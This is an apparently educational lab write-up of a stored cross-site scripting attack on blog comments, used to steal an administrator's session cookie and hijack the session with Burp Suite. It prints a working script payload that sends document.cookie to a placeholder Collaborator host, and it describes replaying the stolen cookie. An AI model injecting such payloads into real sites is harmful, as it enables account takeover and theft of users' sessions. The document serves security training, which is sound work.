

## Report: Cross-Site Scripting (XSS) Vulnerability Exploitation for Cookie Stealing and Session Hijacking

**Introduction:**
This report details the successful exploitation of a Cross-Site Scripting (XSS) vulnerability to steal user cookies and subsequently hijack an administrative session. The process involved utilizing Burp Suite Professional for payload generation and interaction, demonstrating a common yet critical web security flaw.

**Vulnerability Description:**
The identified vulnerability was a Stored XSS, where malicious scripts could be embedded within user-generated content, specifically blog comments. When another user or administrator viewed the affected page, the embedded script would execute within their browser context.

**Exploitation Methodology:**

1.  **Payload Generation:**
    *   Using **Burp Suite Professional's Collaborator** feature, a unique, unguessable subdomain was generated. This subdomain acts as a listener for outbound network requests.
    *   A JavaScript payload was crafted to leverage the `fetch` API. This script was designed to capture the victim's session cookie (`document.cookie`) and send it via an HTTP POST request to the generated Burp Collaborator subdomain.
    *   The payload was structured as follows, with `BURP-COLLABORATOR-SUBDOMAIN` being the unique identifier:

        ```html
        <script>
        fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
            method: 'POST',
            mode: 'no-cors',
            body: document.cookie
        });
        </script>
        ```

2.  **Payload Delivery:**
    *   The crafted XSS payload was injected into a blog comment section of the target application. This ensured that the script would be stored and executed for any user who subsequently viewed that comment.

3.  **Cookie Interception:**
    *   Upon a user (in this case, the administrator) viewing the blog page containing the malicious comment, the JavaScript executed in their browser.
    *   The `fetch` request was initiated, sending the user's session cookie to the designated Burp Collaborator listener.
    *   By polling the **Burp Collaborator tab** and clicking "Poll now", the HTTP interaction containing the stolen cookie was observed. The value of the victim's cookie was successfully captured from the POST body.
   
    
    *This screenshot visually depicts the Burp Collaborator tab showing the incoming HTTP POST request from the victim's browser, clearly displaying the captured session cookie within the request body.*

4.  **Session Hijacking:**
    *   With the administrator's session cookie in hand, the next step was to impersonate the administrator.
    *   Using Burp Proxy or Burp Repeater, the captured session cookie was used to replace the attacker's own session cookie in a subsequent HTTP request to the web application.
    *   The main blog page was reloaded with the hijacked cookie.

5.  **Verification:**
    *   To confirm successful session hijacking, a request was made to the `/my-account` endpoint using the stolen administrator cookie.
    *   The request successfully loaded the admin user's account page, proving that the session had been effectively hijacked.

    
    *This screenshot shows the `/my-account` page loaded in the attacker's browser, displaying administrative content or user details, confirming that the attacker is logged in as the administrator using the stolen cookie.*

**Conclusion:**
This exercise successfully demonstrated the severity of XSS vulnerabilities, particularly when they can be leveraged for session hijacking. The ability to inject malicious scripts and steal sensitive cookies allows attackers to gain unauthorized access to user accounts, including privileged administrative accounts. This highlights the critical importance of robust input validation, output encoding, and content security policies in web application development.

**Skills Demonstrated:**
*   Web Application Security Testing
*   Cross-Site Scripting (XSS) Exploitation (Stored XSS)
*   Burp Suite Professional (Collaborator, Proxy, Repeater)
*   HTTP Request Manipulation
*   Session Hijacking
*   Understanding of Cookie Security
